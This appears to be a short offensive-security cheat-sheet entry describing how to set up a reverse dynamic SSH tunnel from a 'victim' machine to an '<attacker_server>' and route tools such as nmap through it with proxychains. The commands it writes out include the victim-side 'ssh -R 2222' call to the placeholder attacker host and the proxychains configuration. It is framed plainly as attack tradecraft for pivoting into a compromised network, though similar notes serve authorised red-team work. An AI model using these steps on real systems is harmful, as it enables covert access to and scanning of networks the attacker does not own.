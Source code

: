 # Reverse dynamic ssh tunnels

**Description:** This entry describes how to setup a reverse dynamic ssh tunnel from a victim machine

**Requirements:** ssh, proxychains

## Host (Victim) machine

```
ssh -R 2222 <user>@<attacker_server>
```

Run this command from the host machine to create a reverse dyanmic tunnel.

## Attacker server

```
apt install proxychains
```

Install proxychains

```
vim /etc/proxychains.conf

# Edit this line
socks4 127.0.0.1 2222
```

Open and update the proxychains configuration to the port specified in your previous command e.g. 2222

```
proxychains <supported_tool>
```

Run proxychains with supported tools such as nmap and the traffic will go through the host (victim machine)
  
## References
* https://www.openssh.com/txt/release-7.6
